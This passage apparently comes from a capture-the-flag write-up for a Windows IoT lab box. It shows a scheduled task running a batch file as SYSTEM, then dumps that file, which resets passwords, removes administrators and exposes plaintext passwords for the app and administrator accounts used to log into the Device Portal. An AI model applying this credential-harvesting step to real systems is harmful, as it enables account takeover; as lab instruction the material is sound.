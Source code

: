 ```powershell
Task To Run:                          C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

The task contains a path to a bat script, dumping the contents of this script gives us both the password for the `App` and the `Administrator` account:

```powershell
PS C:\Data\Users\Administrator> cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

With both usernames and password found, it is possible to retrieve the flags by logging into the Device Portal:

![App Account Login Dialog](./images/app-login-dialog.png)

